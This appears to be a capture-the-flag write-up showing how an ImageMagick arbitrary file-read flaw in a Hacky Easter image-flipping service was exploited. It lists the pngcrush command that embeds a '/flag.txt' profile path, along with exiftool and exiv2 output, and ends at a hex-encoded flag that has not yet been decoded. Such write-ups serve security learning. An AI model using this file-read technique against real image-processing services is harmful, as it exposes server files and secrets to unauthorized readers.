

## Challenge

This awesome service can flipflop an image!

Flag is located at: `/flag.txt`

http://ch.hackyeaster.com:2310


## Solution

We get a service that will take an image we supply it, and return it to us flipped upside down. The hint says it uses imagemagick to do this.

This looks like an imagemagick vulnerability, and we find a useful [article](https://www.uptycs.com/blog/denial-of-servicedos-and-arbitrary-file-read-vulnerability-in-imagemagick)
on the topic that we can follow.

So we use pngcrush to generate our image (the `test.png` input image can be any png image you have lying around)

```bash
$ pngcrush -text a Profile /flag.txt test.png
```

This creates an output image in [pngout.png](), and we can check the metadata is set correctly:

```bash
$ exiftool pngout.png
ExifTool Version Number         : 12.40
File Name                       : pngout.png
Directory                       : .
File Size                       : 2.3 MiB
File Modification Date/Time     : 2023:04:10 19:47:32+02:00

[..]

History When                    : 2023:01:30 11:31:54+01:00
Warning                         : [minor] Text/EXIF chunk(s) found after PNG IDAT (may be ignored by some readers)
Profile                         : /flag.txt
Image Size                      : 2732x1810
Megapixels                      : 4.9
```

We upload this to our server, and get an image back, [pngreturned.png](writeupfiles/pngreturned.png)

Frustratingly, `exiftool` doesn't show us the `Raw profile type` metadata tag with the flag in it, but using the `exiv2` tool does:

```bash
$ exiv2 -pS pngreturned.png                                                                                                                            [10-04-23 19:59:30]
STRUCTURE OF PNG FILE: pngreturned.png
 address | chunk |  length | data                           | checksum
       8 | IHDR  |      13 | ............                   | 0x6e9bc480
      33 | iCCP  |     371 | icc..(.u..+DQ..?fh.G....%...5. | 0x09d9776f
     416 | cHRM  |      32 | ..z&..............u0...`..:..  | 0x9cba513c
     460 | bKGD  |       6 | ......                         | 0xa0bda793
     478 | pHYs  |       9 | .........                      | 0x952b0e1b
     499 | tIME  |       7 | ...../'                        | 0xf75a837f
     518 | tEXt  |      94 | Raw profile type txt..txt.     | 0x633ed62f
     624 | IDAT  |   32768 | x....w\..'.m{\..... A&.$..n... | 0xadc05540
   33404 | IDAT  |   32768 | ?33Q..~..g.o..B......9g\....Z+ | 0x807f9e28
   66184 | IDAT  |   32768 | ...5595==.8....B.A..N..3 D.l6. | 0x82fb6bd5
   98964 | IDAT  |   32768 | .a..=55}... 0...j,.-b....R.@." | 0x586f7028
  131744 | IDAT  |   32768 | z*.9..Z.s....@))%...,.9.@J. .. | 0x7fd64b40
  164524 | IDAT  |   32768 | ..Z........R.....(......f.`... | 0x73e7d6f7

[..]
```

opening in a hexeditor helps



```
6865323032337b316d3467332d7472346731634b2d6167613131316e7d
```

Hey, this looks like plausible hex-encoded ASCII text, let's decode!


